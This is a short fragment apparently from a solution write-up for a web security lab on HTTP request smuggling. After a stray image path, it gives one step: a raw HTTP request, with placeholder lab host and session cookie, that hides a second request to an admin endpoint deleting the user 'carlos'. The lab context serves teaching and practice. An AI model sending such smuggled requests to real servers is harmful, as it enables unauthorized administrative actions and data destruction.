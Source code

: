 ```ad-success
    
3. Smuggle a request to `GET /admin/delete?username=carlos` request to solve the lab.
    
    ~~~
    POST /resources/images/blog.svg HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net Cookie: session=YOUR-SESSION-COOKIE Connection: keep-alive Content-Length: CORRECT GET /admin/delete?username=carlos HTTP/1.1 Foo: x
    ~~~
```

